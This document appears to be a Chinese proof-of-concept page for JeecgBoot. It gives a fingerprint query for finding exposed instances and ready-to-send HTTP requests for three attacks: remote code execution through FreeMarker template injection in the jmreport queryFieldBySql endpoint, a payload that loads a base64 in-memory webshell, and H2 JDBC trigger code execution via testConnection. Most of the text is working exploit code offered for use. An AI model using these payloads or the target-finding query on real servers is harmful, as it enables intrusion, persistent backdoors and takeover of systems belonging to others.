 ![image](https://github.com/user-attachments/assets/d9e146c5-a8e0-4ba5-9b36-8df694bb0003)
title=="JeecgBoot 企业级低代码平台" || body="window._CONFIG['imgDomainURL'] = 'http://localhost:8080/jeecg-boot/" || title="Jeecg-Boot 企业级快速开发平台" || title="Jeecg 快速开发平台" || body="'http://fileview.jeecg.com/onlinePreview'" || title=="JeecgBoot 企业级低代码平台" || title=="Jeecg-Boot 企业级快速开发平台" || title=="JeecgBoot 企业级快速开发平台" || title=="JeecgBoot 企业级快速开发平台" || title="Jeecg 快速开发平台" || title="Jeecg-Boot 快速开发平台" || body="积木报表" || body="jmreport"

## JeecgBoot sql注入漏洞
```
POST /jeecg-boot/jmreport/queryFieldBySql HTTP/1.1
Host: 192.168.90.1:3100
Origin: http://192.168.90.1:3100
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Content-Length: 123

{"sql":"select 'result:<#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ ex(\"open -a calculator.app  \") }' "}
```
## queryFieldBySql 注入内存马
```
{"sql":"call${\"freemarker.template.utility.ObjectConstructor\"?new()(\"javax.script.ScriptEngineManager\").getEngineByName(\"js\").eval(\"classLoader=java.lang.Thread.currentThread().getContextClassLoader();try{classLoader.loadClass('org.apachen.SOAPUtils').newInstance();}catch(e){clsString=classLoader.loadClass('java.lang.String');bytecodeBase64='这里填入base64的内存马';try{clsBase64=classLoader.loadClass('java.util.Base64');clsDecoder=classLoader.loadClass('java.util.Base64$Decoder');decoder=clsBase64.getMethod('getDecoder').invoke(base64Clz);bytecode=clsDecoder.getMethod('decode',clsString).invoke(decoder,bytecodeBase64);}catch(ee){try{datatypeConverterClz=classLoader.loadClass('javax.xml.bind.DatatypeConverter');bytecode=datatypeConverterClz.getMethod('parseBase64Binary',clsString).invoke(datatypeConverterClz,bytecodeBase64);}catch(eee){clazz1=classLoader.loadClass('sun.misc.BASE64Decoder');bytecode=clazz1.newInstance().decodeBuffer(bytecodeBase64);}}clsClassLoader=classLoader.loadClass('java.lang.ClassLoader');clsByteArray=(''.getBytes().getClass());clsInt=java.lang.Integer.TYPE;defineClass=clsClassLoader.getDeclaredMethod('defineClass',[clsByteArray,clsInt,clsInt]);defineClass.setAccessible(true);clazz=defineClass.invoke(classLoader,bytecode,0,bytecode.length);clazz.newInstance();};#{1};\")}","dbSource":"","type":"0"}
```
使用内存马工具生成payload，将生成的base64格式的内存马 替换payload 中bytecodeBase64的值

![image](https://github.com/wy876/POC/assets/139549762/55a9877c-c111-4897-a665-8f58e9de5300)

![image](https://github.com/wy876/POC/assets/139549762/03a476fa-7d2a-4221-9c96-c5b60040adfd)

![image](https://github.com/wy876/POC/assets/139549762/24b6b0b2-419c-43d1-a0c8-8ced440e0a79)

内存马路径：`http://192.168.18.131:8080/jeecg-boot/jmreport/queryFieldBySql/`

## JeecgBoot SSTI 漏洞
```
POST /jeecgboot/jmreport/testConnection HTTP/1.1
Host: 192.168.90.1:3100
Content-Length: 383
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.90.1:3100
Referer: http://192.168.90.1:3100/login?redirect=/dashboard/analysis
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{
  "id": "1",
  "code": "dataSource1",
  "dbType": "H2",
  "dbDriver": "org.h2.Driver",
  "dbUrl": "jdbc:h2:mem:test;init=CREATE TRIGGER shell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\u000A\u0009java.lang.Runtime.getRuntime().exec('open -a calculator.app')\u000A$$",
  "dbName": "test",
  "dbUsername": "sa",
  "dbPassword": "",
  "connectTimes": 5
}

```
## 漏洞分析
https://c0olw.github.io/2023/08/15/JeecgBoot-SSTI%E4%BB%A5%E5%8F%8AJDBC-RCE/
